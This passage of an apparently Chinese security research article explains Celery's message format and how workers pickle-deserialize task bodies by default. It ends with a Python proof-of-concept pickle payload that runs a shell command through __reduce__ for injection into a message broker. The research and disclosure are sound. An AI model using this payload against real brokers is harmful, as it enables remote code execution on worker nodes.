 ```json
            "exchange": "celery",
            "priority": 0
        },
        "delivery_mode": 2,
        "delivery_tag": "027bd89a-389e-41d1-857a-ba895e6eccda"
    }
}
```

在上面的消息数据中，`properties` 里包含了消息的路由信息和标识性的 UUID 值，而其中`properties.body_encoding` 的值则表示消息主体 `body` 的编码方式，这里默认为 base64 编码。在 Celery 分布式框架中，worker 端在获取到消息数据时会根据 `properties.body_encoding` 的值对消息主体 `body` 进行解码，即 `base64.b64decode(body)`，而消息数据中的 `content-type` 指明了消息主体（具体的任务数据）的序列化方式，由于采用了默认的配置所以这里使用的是 Python 内置序列化模块 `pickle` 对任务数据进行的序列化。

将消息主体经 base64 解码和反序列化（即之前 `unserializer.py` 文件功能） 操作以后得到具体的任务数据：

![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/9.png)

格式化任务数据为：

```json
{
    'args': (4, 9),  // 传递进 celery_simple.add 函数中的参数
    'timelimit': (None, None),  // celery Task 任务执行时间限制
    'expires': None,
    'taskset': None,
    'kwargs': {},
    'retries': 0,
    'callbacks': None,  // Task 任务回调
    'chord': None,
    'id': '1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe',  // 任务唯一 ID
    'eta': None,
    'errbacks': None,
    'task': 'celery_simple.add',  // 任务执行的具体方法
    'utc': True
}
```

任务数据标明了哪一个注册的 Task 将会被调用执行，其执行的参数是什么等等。这里任务数据已经不在重要，从上面这个分析过程中我们已经得到了这么一个结论：Celery 分布式节点 worker 在获取到消息数据后，默认配置下会使用 `pickle` 对消息主体进行反序列化。

#### 3. 构造恶意消息数据

那么如果在 Broker 中添加一个假任务，其消息主体包含了之前能够进行命令执行的序列化数据，那么在 worker 端对其进行反序列化的时候是不是就能够执行任意代码了呢？下面就来证明这个假设。

这里直接对消息主体 `body` 进行构造，根据第一节回顾的 Python 序列化利用方式，构造 Payload 使得在反序列化的时候能够执行命令并将结果进行返回（方便后面验证）：

```python
import base64
import pickle
import commands
class LS(object):
    def __reduce__(self):
        return (commands.getstatusoutput, ('ls', ))
print(base64.b64encode(pickle.dumps(LS())))
```
